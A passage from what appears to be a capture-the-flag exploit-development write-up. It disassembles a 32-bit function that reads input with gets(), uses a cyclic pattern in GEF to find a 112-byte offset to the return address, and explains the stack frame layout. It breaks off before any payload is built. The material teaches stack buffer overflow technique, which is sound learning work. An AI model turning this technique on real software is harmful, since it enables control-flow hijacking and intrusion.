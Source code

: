 ## Exploit Development

Lets start by first finding the offset from the return pointer:

```bash
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x08049338 <+0>:     endbr32
   0x0804933c <+4>:     push   ebp
   0x0804933d <+5>:     mov    ebp,esp
   0x0804933f <+7>:     push   ebx
   0x08049340 <+8>:     sub    esp,0x74
   0x08049343 <+11>:    call   0x80491d0 <__x86.get_pc_thunk.bx>
   0x08049348 <+16>:    add    ebx,0x2cb8
   0x0804934e <+22>:    sub    esp,0xc
   0x08049351 <+25>:    lea    eax,[ebp-0x6c]
   0x08049354 <+28>:    push   eax
   0x08049355 <+29>:    call   0x80490f0 <gets@plt>
   0x0804935a <+34>:    add    esp,0x10
   0x0804935d <+37>:    sub    esp,0xc
   0x08049360 <+40>:    lea    eax,[ebp-0x6c]
   0x08049363 <+43>:    push   eax
   0x08049364 <+44>:    call   0x8049120 <puts@plt>
   0x08049369 <+49>:    add    esp,0x10
   0x0804936c <+52>:    nop
   0x0804936d <+53>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x08049370 <+56>:    leave
   0x08049371 <+57>:    ret
gef➤  b *0x08049371
Breakpoint 2 at 0x8049371
gef➤  pattern create 256
[+] Generating a pattern of 256 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac
...
gef➤  pattern offset $esp
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```

Our offset is 112 bytes. 

Now for the tricky part. 

Recall that when a subroutine is called, the caller will setup the stack like:

```

    0x1000  +-------------------------+
            |                         |
            |                         | < esp
            |                         |
            |                         |
            |                         |
            |                         | 
            |                         | < ebp-0x8
            |                         | < ebp-0x4
            |       saved ebp         | < ebp
            |      return addr        | < ebp+0x4
            |         arg1            | < ebp+0x8
            |         arg2            | < ebp+0xc
            |         argN            |
            |                         |
            |                         |
            |                         |
```